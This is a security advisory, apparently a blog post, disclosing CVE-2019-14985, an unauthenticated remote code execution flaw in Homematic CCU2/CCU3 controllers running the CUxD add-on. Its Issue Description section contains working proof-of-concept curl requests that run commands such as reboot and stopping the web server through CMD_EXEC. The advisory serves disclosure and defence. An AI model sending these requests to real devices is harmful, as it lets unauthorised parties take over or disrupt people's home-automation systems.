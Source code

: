 ```yaml
---
layout: post
title:  "CVE-2019-14985 eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage"
date:   2019-08-13 19:30:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-14985
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Vendor patch: N.A.
- Addon itself:
  - Developer of 'CUxD' AddOn contacted: 02.04.2019
  - Developer of 'CUxD' AddOn confirmation: 04.04.2019
  - 'CUxD' AddOn patch: N.A.
  - Affected 'CUxD' AddOn version: 2.3.3 and prior
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested

# Background

From [ELVjournal 06/2014](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-f%C3%BCr-die-HomeMatic%C2%AE-CCU-Teil-1/x.aspx/cid_726/detail_49667) translated:<br>
The Homematic additional software CUx-Daemon (short CUxD) is a universal interface between the Homematic central unit and components of other home control or SmartHome systems. These include the ELV FS20, FHT, HMS and EM/ESA systems, but also components of the EnOcean system and much more. By integrating these products, which are actually incompatible, the scope of the Homematic System can be extended beyond borders. In a multi-part article series we want to present CUxD, installations and possible uses in more detail.

From [ELVjournal 02/2015](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-fuuml;r-die-HomeMatic%C2%AE-CCU-Teil-3/x.aspx/cid_726/detail_50496) translated:<br>
The CUxD device Exec serves as a replacement for the undocumented and not very stable "system.exec()" function of the CCU, which can be used to start arbitrary processes on the Homematic central.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www and the internal device usage, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in CCU firmware, if 'CUxD' AddOn is installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented URL ending with ".exe" if lighttpd proxy.conf is not protected against remote call of "*.exe" URLs:<br>

```
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```
2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984) or other popular AddOns like [HM-Print](https://github.com/litti/hm-print/issues/4), [HM-Email](https://github.com/jens-maus/hm_email/issues/11) or [Script Parser](https://github.com/litti/scriptparser/issues/4):<br>


```
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```

# CVE

[CVE-2019-14985](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14985)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
